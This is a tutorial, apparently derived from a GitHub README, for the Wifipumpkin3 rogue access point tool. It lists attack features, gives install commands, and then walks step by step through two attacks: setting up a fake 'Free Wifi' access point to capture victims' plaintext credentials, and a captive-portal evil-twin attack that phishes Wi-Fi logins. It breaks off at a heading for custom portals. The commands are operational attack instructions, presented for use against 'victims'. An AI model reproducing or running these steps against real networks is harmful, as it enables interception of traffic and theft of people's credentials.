 # Wifipumpkin3

## Features

- Rogue access point attack

- Man-in-the-middle attack

- Module for deauthentication attack

- Module for extra-captiveflask templates

- Rogue DNS Server

- Captive portal attack (captiveflask)

- Intercept, inspect, modify and replay web traffic

- WiFi networks scanning

- DNS monitoring service

- Credentials harvesting

- Transparent Proxies

- LLMNR, NBT-NS, and MDNS poisoner

## Installation

#### 1) Install dependencies

    sudo apt install libssl-dev libffi-dev build-essential

#### 2) Download the tool and install the rest of the dependencies

    git clone https://github.com/P0cL4bs/wifipumpkin3.git
    cd wifipumpkin3
    sudo apt install python3-pyqt5

Then,

    python3 setup.py install

#### 3) Create a fake access point with the name of "Free wifi" to do Man-in-the-Middle attacks

Run the tool

    sudo wifipumpkin3

Set up your tool

    set interface wlan0
    set ssid Free Wifi
    set proxy noproxy
    ignore pydns_server
    start

Then, when the victim connects to our fake AP, he will receive a malicious IP from our DHCP server.

When a victim connects to an HTTP website that does not have SSL/TLS encryption in transit and inserts data in user input textbox like "username, password, email" for example, Wifipumpkin captures traffic and the credentials entered by the victim in plain text.

#### 4) Captive portal attack

Similar to the first attack, but this time it uses a secure page where the victim must enter credentials (username and password) for the Wi-Fi. Can be used when we are doing an evil twin attack.

Run your tool

    sudo wifipumpkin3

Set up your tool

    set interface wlan0
    set ssid Hotspot
    set proxy captiveflask true
    ignore pydns_server
    start

When the victim connects to our "Hotspot" wifi, he will be redirected to a login page to enter credentials before he can use the internet.

Credentials have been captured by Wifipumpkin and displayed in a table form.

#### 5) Custom Captiveflask
